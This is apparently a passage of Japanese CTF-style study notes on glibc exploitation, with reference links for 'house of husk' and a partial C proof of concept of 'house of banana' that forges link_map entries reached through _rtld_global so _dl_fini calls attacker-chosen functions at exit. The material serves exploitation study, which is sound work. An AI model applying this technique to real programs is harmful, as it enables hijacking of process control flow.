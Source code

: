 
### 参考資料
* house of husk 解説記事　 
https://ptr-yudai.hatenablog.com/entry/2020/04/02/013910
* printf_positional
https://elixir.bootlin.com/glibc/latest/source/stdio-common/vfprintf-internal.c#L1740
* \__parse_one_specmb
https://elixir.bootlin.com/glibc/latest/source/stdio-common/printf-parsemb.c#L316

## \_rtld_global
house of banana の1パート
ver2.35で動作確認済み。

### 手順
ld.so内の\_rtld_globalが指し示すlink_mapの双方向リストをいい感じに書き換えると、
exit()やmain関数からのreturnの際に呼ばれる\_dl_finiの処理にていい感じに差し替えた関数テーブルが呼ばれる。

```c
#include <stdio.h>
#include <stdlib.h>
// differ in each environment
unsigned long off_puts = 0x80ed0;
unsigned long off_ld = 0x7fe5d6f2d000 - 0x7fe5d6cfd000; // ld_base - libc_base 
//unsigned long off_ld = 0x7ffff7fc3000 - 0x7ffff7d8d000; // for gdb
unsigned long off_rtld_global = 0x7ffff7ffd040 - 0x7ffff7fc3000;

void target1(unsigned long arg1)
{
    printf("In target1(): arg1=0x%lx\n", arg1);
    return;
}

void target2(unsigned long arg1)
{
    printf("In target2(): arg1=0x%lx\n", arg1);
    return;
}

void main()
{
    int i;

    printf("Start of main()\n");

    void* libc_base = &puts - (unsigned long)off_puts;
    printf("libc_base = %p\n",libc_base);
    void* rtld_global = libc_base + off_ld + off_rtld_global;
    printf("rtld_global = %p\n",rtld_global);

    // prepare for exploit
    unsigned int ns_loaded = 4;
    void* fake_link_maps[ns_loaded];

    for(i = ns_loaded-1; i >= 0; i--){
        fake_link_maps[i] = malloc(0x400);                              // enough for size of link_map
        *(unsigned long*)(fake_link_maps[i] + 0x28) = fake_link_maps[i]; // link_map->l_real
        if(i == ns_loaded-1)
            *(unsigned long*)(fake_link_maps[i] + 0x18) = 0;            // link_map->l_next
        else
            *(unsigned long*)(fake_link_maps[i] + 0x18) = fake_link_maps[i+1];
    }

```